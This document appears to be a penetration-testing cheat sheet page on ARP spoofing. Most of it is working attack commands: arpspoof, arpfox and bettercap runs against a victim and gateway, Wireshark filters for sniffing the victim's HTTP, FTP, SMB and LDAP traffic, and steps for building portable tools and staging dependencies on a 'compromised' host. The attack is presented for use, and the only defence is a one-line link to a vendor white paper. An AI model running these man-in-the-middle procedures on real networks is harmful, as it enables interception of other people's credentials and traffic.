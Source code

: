 ```yaml
---
description: Address Resolution Protocol
---
```


# ARP Spoofing

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```




## arpspoof (dsniff)

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)
* [https://github.com/GregHoff/dsniff](https://github.com/GregHoff/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof [-i eth0] [-c both] -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1 [-r]
```

![arpspoof Output Disassembled](/.gitbook/assets/009.png)

{% hint style="hint" %}
Wireshark filter while ARP spoofing:

```
(http || ftp || smb || smb2 || ldap) && ip.src == VICTIM_10.0.0.5
```
{% endhint %}



### Portable

* [https://github.com/byt3bl33d3r/arpspoof](https://github.com/byt3bl33d3r/arpspoof)
* [https://github.com/malfunkt/arpfox](https://github.com/malfunkt/arpfox)

As a portable alternative one may use the Python port of arpspoof compiled with PyInstaller:

```
$ sudo apt install virtualenv
$ pip install pyinstaller=3.5
$ git clone https://github.com/byt3bl33d3r/arpspoof
$ cd arpspoof
$ virtualenv -p `which python2` venv
$ . venv/bin/activate
$ pip install -r requirements.txt
$ pyinstaller --onefile --paths venv/lib/python2.7/site-packages arpspoof/arpspoof.py
$ file dist/arpspoof
```

Another approach is to download Python dependencies locally and install them on a compromised Linux host:

```
Dev$ pip download --no-binary=:all: -r requirements.txt
Compromised$ python -m pip install --no-index --find-links . -r requirements.txt
```

If you need to launch ARP spoofing on another distro (CentOS, for example), then installing OS dependencies and using a portable binary may be easier:

```
Dev$ mkdir /tmp/tcpdump && yum install --downloadonly --downloaddir=/tmp/tcpdump tcpdump
Dev$ ls /tmp/tcpdump
libpcap-1.5.3-12.el7.x86_64.rpm  tcpdump-4.9.2-4.el7_7.1.x86_64.rpm

Compromised$ rpm -i libpcap*.rpm tcpdump*.rpm
Compromised$ tcpdump -nvv -i eth0 -s 65535 -w arpfox.pcap "src host VICTIM_10.0.0.5"
Compromised$ ./arpfox -l
Compromised$ ./arpfox -i eth0 -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```




## bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)

Attack:

```
$ sudo ./bettercap --iface eth0 --caplet arpspoof.cap
```

{% code title="arpspoof.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
arp.spoof on
net.sniff on
```
{% endcode %}




## Mitigations

Mitigating ARP spoofing:

{% file src="/.gitbook/assets/Ruijie Anti-ARP Spoofing Technical White Paper.pdf" %}
